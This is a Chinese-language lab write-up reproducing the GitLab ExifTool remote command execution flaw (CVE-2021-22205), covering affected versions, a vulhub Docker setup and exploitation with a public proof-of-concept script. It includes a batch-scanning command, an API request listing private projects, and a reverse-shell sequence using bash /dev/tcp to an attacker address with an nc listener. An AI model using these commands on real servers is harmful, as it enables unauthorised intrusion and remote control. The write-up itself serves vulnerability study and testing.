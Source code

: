 # 0x00 漏洞概述
在GitLab CE/EE中发现了一个问题，影响了从11.9开始的所有版本。GitLab未正确验证传递给文件解析器的图像文件，导致远程命令执行。

GitLab 是由GitLab Inc.开发的一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，可通过Web界面访问公开或私人项目。由于GitLab存在未授权的端点，导致该漏洞在无需进行身份验证的情况下即可进行利用。
# 0x01 影响版本
该漏洞影响以下GitLab企业版和社区版：
- 13.10 <= Gitlab CE/EE < 13.10.3
- 13.9 <= Gitlab CE/EE < 13.9.6
- 11.9 <= Gitlab CE/EE < 13.8.8

使用如下命令可查看当前GitLab的版本：
```
cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

# 0x02 漏洞分析
未授权的端点在于用户登录处：https://xx.xx.xx.xx/users/sign_up

还可以滥用Gitlab API接口列出所有项目（包括私有项目）
https://xx.xx.xx.xx/api/v4/projects/?simple=yes&private=true&per_page=1000&page=1

此漏洞是通过上传功能来实现RCE的，漏洞出于ExifTool功能处，用于从图像中移除元数据的开源工具，因为此工具在解析上传图像中的元数据时，并没有完全解析某些元数据，导致攻击者上传带有恶意元数据的图片，从而导致远程命令执行。

# 0x03 环境搭建
```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/gitlab/CVE-2021-22205/
docker-compose up -d
```

环境启动后，访问http://your-ip:8080即可查看到GitLab的登录页面。

```
靶机：192.168.210.206
攻击机 windows：192.168.210.186
攻击机 kali：192.168.210.186
```

# 0x04 漏洞复现
- 🔗 [CVE-2021-22205.py](https://github.com/Al1ex/CVE-2021-22205)

## 1、访问GitLab登陆界面

未授权的端口在于用户登录处：https://xx.xx.xx.xx/users/sign_up

![image](https://user-images.githubusercontent.com/84888757/174459287-4880a9c3-99ae-4a21-afae-09b2399d6b2e.png)

## 2、漏洞验证
POC：https://github.com/Al1ex/CVE-2021-22205

验证：
```
python3 CVE-2021-22205.py -v true -t http://目标IP:Port
```

![image](https://user-images.githubusercontent.com/84888757/174459288-9763f890-2c58-43c0-9266-5085083458b5.png)


## 3、批量检测
python3 CVE-2021-2205.py -s true -f target.txt


## 4、反弹shell
1）kali开启监听
```
nc -lvvp 6666
```

2）在靶机的/tmp下写入一个1.sh文件，用于反弹shell
```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "echo 'bash -i >& /dev/tcp/攻击方ip/port 0>&1' > /tmp/1.sh"
```

![image](https://user-images.githubusercontent.com/84888757/174459383-bc832b38-a685-42ac-97d7-cfcbded95fb2.png)

在靶机查看/tmp目录下已经写入一个1.sh文件：

![image](https://user-images.githubusercontent.com/84888757/174459394-cd5a8676-4131-409b-a726-eae73c7240f3.png)



3）给写入的1.sh文件添加执行权限
```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "chmod +x /tmp/1.sh"
```

![image](https://user-images.githubusercontent.com/84888757/174459397-16f3a133-4d6a-44dd-b161-3974a7e9f0cf.png)

在靶机查看`1.sh`已经添加了执行权限：

![image](https://user-images.githubusercontent.com/84888757/174459410-e01f9ac8-4fb5-4557-a565-21bebe381be9.png)


4）执行`1.sh`文件
```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "/bin/bash /tmp/1.sh"
```

5）kali收到反弹的shell

![image](https://user-images.githubusercontent.com/84888757/174459421-e4edf211-5a7c-40ba-8e8c-528aeabadc88.png)

